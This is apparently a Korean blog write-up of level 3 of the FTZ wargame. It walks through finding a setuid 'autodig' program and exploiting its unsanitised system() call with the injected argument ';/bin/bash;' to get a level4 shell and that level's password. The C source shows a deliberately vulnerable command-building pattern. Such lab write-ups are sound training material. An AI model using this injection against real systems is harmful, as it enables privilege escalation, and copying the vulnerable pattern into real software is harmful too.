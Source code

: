```yaml
---
title: FTZ 3번 Write-up
date: 2017-8-21 0:12:00
categories: FTZ
---
```


## FTZ 3번

    [level3@ftz level3]$ ls
    hint  public_html  tmp
    [level3@ftz level3]$ cat hint
    
    
    다음 코드는 autodig의 소스이다.
    
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    int main(int argc, char **argv){
    
        char cmd[100];
    
        if( argc!=2 ){
            printf( "Auto Digger Version 0.9\n" );
            printf( "Usage : %s host\n", argv[0] );
            exit(0);
        }
    
        strcpy( cmd, "dig @" );
        strcat( cmd, argv[1] );
        strcat( cmd, " version.bind chaos txt");
    
        system( cmd );
    
    }
    
    이를 이용하여 level4의 권한을 얻어라.
    
    more hints.
    - 동시에 여러 명령어를 사용하려면?
    - 문자열 형태로 명령어를 전달하려면?

프로그램을 실행할때 인자로 문자열을 전달함으로써 원하는 명령을 실행시키는 문제이다. 

    [level3@ftz level3]$ find / -user level4 -perm +4000 2>/dev/null
    /bin/autodig

실행시 /bin/autodig 123   이렇게 하면 123을 실행인자로 넘겨준다. 하지만 문자열을 넘겨줄때에는 python, perl 같은 스크립트 언어를 활용하거나, ";"를 활용하면 된다.

    [level3@ftz level3]$ id
    uid=3003(level3) gid=3003(level3) groups=3003(level3)
    [level3@ftz level3]$ /bin/autodig `python -c 'print ";/bin/bash;"'`
    dig: Couldn't find server '': Name or service not known
    [level4@ftz level3]$ id
    uid=3004(level4) gid=3003(level3) groups=3003(level3)
    [level4@ftz level3]$ my-pass
    
    Level4 Password is "suck my brain".

뚫었다.
